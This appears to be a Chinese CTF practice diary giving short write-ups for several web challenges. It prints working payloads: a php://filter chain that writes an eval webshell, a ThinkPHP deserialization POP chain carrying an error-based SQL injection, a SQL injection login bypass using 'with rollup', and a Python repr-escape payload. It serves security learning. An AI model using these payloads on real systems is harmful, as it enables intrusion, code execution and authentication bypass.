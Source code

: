 # Day9-懒狗来打卡了

## 0x01 [WMCTF2020]Web Check in 2.0

绕过死亡exit，这是基本操作了，但是需要找到新的过滤器。懒狗想到这里就去看wp了。

```java
=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=6.php
```

还有一种方法是**segment**，就是那个qwb2021才考过的知识点。需要爆破，就不多说了

## 0x02 [CISCN2019 总决赛 Day1 Web3]Flask Message Board

这个题目到最后一步之前都挺简单的.....

![image-20220113093346679](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220113093346679.png)

存在`ssti`，但是好像有限制，{{config}}，获取到sercret_key,伪造session，访问/admin，拿到源码，发现有tensorflow的模型，默默点开了[wp](https://github.com/RManLuo/ciscn2019_final_web4)。发现需要使用**tensorboard**审计模型。

安装环境

```bash
conda activate tensorflow-py3.6
conda install tensorflow
pip install tensorboard
```

使用`tensorboard --logdir ./log`

## 0x03 [红明谷CTF 2021]EasyTP

堆叠注入或者报错注入。

```java
<?php
namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;
        public function __construct(){
            $this->img = new Memcache();

        }
    }
}


namespace Think\Session\Driver{
    use Think\Model;

    class Memcache {
        protected $handle;
        public function __construct(){
            $this->handle = new Model();

        }
    }

}

namespace Think{
    use Think\Db\Driver\Mysql;
    class Model {
        protected $data=array();
        protected $pk;
        protected $options=array();
        protected $db=null;

        public function __construct()
        {
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array(
                'where'=>'1=1',
                'table'=>'mysql.user where 1=updatexml(1,concat(0x7e,user(),0x7e),1)#'

            );


        }
    }
}


//初始化数据库连接
namespace Think\Db\Driver{
    use PDO;
    class Mysql {

        protected $config     = array(
            'debug'             =>   true,
            "charset"           =>  "utf8",
            'type'              =>  'mysql',     // 数据库类型
            'hostname'          =>  'localhost', // 服务器地址
            'database'          =>  'thinkphp',          // 数据库名
            'username'          =>  'root',      // 用户名
            'password'          =>  'root',          // 密码
            'hostport'          =>  '3306',        // 端口
        );
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true    // 开启后才可读取文件
            PDO::MYSQL_ATTR_MULTI_STATEMENTS => true,    //把堆叠开了，开启后可堆叠注入
        );


    }

}


namespace{
    echo base64_encode(serialize(new Think\Image\Driver\Imagick() ));
}


?>

```

## 0x04 [Black Watch 入群题]Web2

参考:https://blog.csdn.net/qq_44105778/article/details/89163304

https://blog.csdn.net/wangyuxiang946/article/details/120118721

```
我们使用万能用户名 a'/**/or/**/true/**/# 使SQL成立绕过用户名之后, 后台的SQL会查询出所有的用户信息, 然后依次判断查询处的用户名对应的密码和我们输入的密码是否相同, 这时候我们使用with rollup 对 group by 分组的结果再次进行求和统计, 由于with rollup 不会对group by 分组的字段( password)进行统计, 所以会在返回结果的最后一行用null来填充password, 这样一来我们的返回结果中就有了一个值为null的password , 只要我们登录的时候password输入框什么都不输, 那我么输入的password的值就是null, 跟查询出的用户密码相同( null == null), 从而登录成功
```

```
username=\&password=||1 group by token with rollup having token is NULL--+&question=1
```

分析一下这个payload，发现了一个新的语句，但是我不明白这个是干的？也不知道他在干嘛，注册普通用户默认token为0?,然后看token判断身份吗?

盲猜他的语句

```sql
select token from users where username= & password=
```

注入之后

```sql
select token from users where username="\" and passwrod=" ||  1 group by token with rollup having token is NULL--+"
```

精简一下

```sql
select token from users where username="a" || 1 group by token with rollup having token is NULL
```

最后返回的数据是token为null的一条数据。后面就是mysql链接，和一个目录绕过了

## 0x05 PyCalX 1&2

https://xz.aliyun.com/t/2456

其实这个题目最关键的位置在`repr`函数，他会引入单引号，导致逃逸，然后就可以使用两个特性

```
f'{}' 的代码执行
```

然后通过`source`来引入无法主测的变量。

两个payload就是`print(str(repr("a"))+str("+'")+str(repr("< b#")))`

## 0x06 [SWPUCTF 2016]Web7

CRLF+SSRF 无脑so


